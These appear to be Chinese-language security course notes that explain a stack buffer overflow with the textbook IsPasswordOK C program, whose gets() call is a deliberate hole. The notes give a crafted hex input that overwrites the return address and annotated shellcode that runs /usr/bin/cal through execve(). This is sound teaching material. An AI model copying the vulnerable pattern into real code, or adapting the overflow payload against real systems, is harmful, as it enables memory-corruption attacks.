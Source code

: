 - 以`root`或其他较高权限执行的程序是攻击者的目标

	!!! info "一个利用的例子：源码+利用"

        ```c title="password.c源码"
		bool IsPasswordOK(void) {
			 char Password[12];
			 gets(Password);    // (1)
			 if (!strcmp(Password,"goodpass")) return true; // (2)
			 else return false; // (3)
		}

		void main(void) {
			bool PwStatus;              // (4)
			puts("Enter Password:");
			PwStatus=IsPasswordOK();    // (5)
			if (PwStatus == false) {
				puts("Access denied");
				exit(-1);              // (6)
			}
			else puts("Access granted");
		}
		```

        1. 从键盘中获取输入
        2. 密码正确
        3. 密码不正确
        4. 表示密码的状态
        5. 获取并检查密码
        6. 中断程序

		通过构造以下输入，攻击者可以执行任意代码

		```text
		000  31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36   "1234567890123456"
		010  37 38 39 30 31 32 33 34 35 36 37 38 (E0 F9 FF BF) "789012345678a· +"
		020  31 C0 A3 FF F9 FF BF B0 0B BB 03 FA FF BF B9 FB   "1+ú · +¦+· +¦v"
		030  F9 FF BF 8B 15 FF F9 FF BF CD 80 FF F9 FF BF 31   "· +ï§ · +-Ç · +1"
		040  31 31 31 2F 75 73 72 2F 62 69 6E 2F 63 61 6C 0A   "111/usr/bin/cal "
		```
	    
	    其中第一行16字节的二进制数据将填满分配的密码存储空间（gcc版本的编译器分配堆栈用于16字节的操作），接下来的12字节二进制数据将填充编译器分配的存储空间，以与16字节边界对齐。接下来的四个字节（0xbffff9e0）覆盖了原函数的返回地址，几行执行了系统shell，它的功能为使用系统调用`execve()`打开计算器程序，具体细节如下
		
	    ```asm title="打开计算器的具体细节"
	    xor %eax,%eax #set eax to zero  ;该利用自始至终都不能包含空字符，必须通过利用代码来设置空指针
		mov %eax,0xbffff9ff #set to NULL word  ;将参数列表末尾用空指针终结，一个系统调用参数包含空指针结束的指针列表
		mov $0xb,%al #set code for execve ;系统调用设置为0xb, 它等于Linux 中的系统调用execve
		mov 0xbffffa03,%ebx #ptr to arg 1
		mov 0xbffff9fb,%ecx #ptr to arg 2
		mov 0xbffff9ff,%edx #ptr to arg 3 ;设置三个execve()调用参数
		int $80 # make system call to execve ;execve()系统调用导致了Linux日历程序的执行，参数为两个字符串指针
		;char * []={0xbffff9ff, "1111"}; "/usr/bin/cal\0"
		```
